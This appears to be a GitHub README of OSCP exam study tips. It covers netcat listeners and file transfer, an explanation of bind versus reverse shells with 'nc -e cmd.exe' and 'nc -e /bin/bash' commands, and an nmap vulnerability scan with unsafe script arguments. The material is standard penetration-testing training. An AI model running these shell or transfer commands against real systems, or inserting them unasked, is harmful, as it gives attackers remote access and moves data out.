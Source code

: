# Go-For-OSCP

# Tips
<b>Enable service on every reboot:</b>

update-rc.d <[service]> enable

<b>Extract link from html page:</b>

cat index.html | grep "href=" | cut -d "/" -f3| grep "debian.org" | cut -d '"' -f1 | sort -u

# Netcat
<b>Interact with application:</b>

nc -nv <[IP]> <[PORT]>

<b>Listener:</b>

nc -nlvp <[PORT]>

<b>File transfer (client):</b>

nc -nlvp <[PORT]> > <[FILE]>

<b>File transfer (server):</b>

nc -nv <[IP]> <[PORT]> < <[FILE_TO_SEND]>

# Bind vs Reverse Shell

<img src="https://raw.github.com/SynAckPwn23/Go-For-OSCP/master/Bind_Reverse_shell.png" width="500"/>

<b>Bob needs Alice's help. Bob set up a listener on port 4444 with -e parameter:</b>

(BOB): nc -nlvp 4444 -e cmd.exe

<b>Alice connects to Bob's pc:</b>

(ALICE): nc -nv <[BOB_IP]> 4444

<b>Alice needs Bob's help. Since Alice is beyond firewall it is impossible to BOB to reach Alice. So Alice create a reverse shell:</b>

(ALICE): nc -nv <[BOB_IP]> 4444 -e /bin/bash

<b>Bob connects to Alice's pc:</b>

(BOB): nc -nlvp 4444








# Nmap
nmap -sS -sV -A -O --script="*-vuln-*" --script-args=unsafe=1 <[IP]>
